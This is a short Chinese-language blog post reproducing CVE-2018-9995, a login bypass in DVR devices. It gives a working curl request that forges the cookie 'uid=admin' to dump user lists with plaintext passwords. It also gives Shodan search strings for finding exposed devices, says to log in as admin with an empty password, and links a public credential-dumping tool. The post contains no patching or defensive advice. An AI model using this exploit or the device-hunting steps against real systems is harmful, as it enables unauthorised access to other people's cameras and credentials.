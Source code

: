 ```yaml
---
title: DVR登录绕过漏洞（CVE-2018-9995）
categories:
- CVE-2018-9995
tags:
- 漏洞
updated: 2018-05-22
---
```


前两天的时候网上爆出了关于DVR登录绕过的漏洞（CVE-2018-9995），身边的有个大佬玩的high的不得了，今天有时间来复现一下看下效果。



网上复现的文章也挺多的，原理就是这些DVR的cookie都好简单,”uid=admin”,然后凭证都是明文…（作大死）

利用代码：

```
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

网上说使用shodan,zoomeye,fofa,google等搜索引擎,可以查到;

不推荐zoomeye（钟馗之眼），因为made in china，里面中国的ip全部隐藏了。

推荐使用shodan：

搜索关键字:”/longin.rsp”或者”GNU rsp/1.0”,如图:

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_01.png" />

条件:存在device.rsp页面并可访问（一定要可以访问的）

使用curl命令:

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_02.png" />

登录账号：admin        密码为空

直接登录即可（使用IE浏览器）：

<img src="{{ site.url }}/assets//blog_images/CVE-2018-9995_03.png" />



还有一个阿根廷的大牛写了个py工具,直接获取明文密码

工具发布在了github上

```
:<https://github.com/ezelf/CVE-2018-9995_dvr_credentials>
```

最后共勉一句话：

《善恶的彼岸》146小节，原文
Wer mit Ungeheuern kämpft, mag zusehn, dass er nicht dabei zum Ungeheuer wird. Und wenn du lange in einen Abgrund blickst, blickt der Abgrund auch in dich hinein.

 -------当你在凝望深渊的时候,深渊也在凝望你

 

 

 

 

 

### 







​
